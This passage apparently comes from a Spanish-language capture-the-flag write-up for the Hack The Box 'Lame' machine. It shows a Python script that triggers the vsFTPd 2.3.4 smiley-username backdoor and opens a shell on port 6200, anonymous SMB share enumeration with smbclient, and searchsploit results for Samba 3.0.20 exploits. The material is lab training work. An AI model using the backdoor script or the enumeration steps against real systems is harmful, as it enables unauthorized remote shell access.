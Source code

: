 ```java

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
──────────────────────────────────────────────────────────────────────────────────────────────
```
Se puede listar los recusros compartidos con  al herramienta smclient, usando el usuario anonymous o null session, `smbclient -L 10.10.10.3 -N` en caso de presentar error `NT-STATUS_CONNECTION_DISCONENECTED`, ese error puede se puede solucionar agregando el parametro `--options` como esta acontinuación.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```
Segun el proceso de enumeracion podemos buscar una vulnerabilidad asociada al servicio `Samba 3.0.20`, esto se busca con search exploit. Y para examinar el archivo sin descagar podemos agregar el parametro `-x`.
```java
--------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                            |  Path
--------------------------------------------------------------------------------------------------------------------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                    | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                          | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                     | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                             | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Results
Papers: No Results
```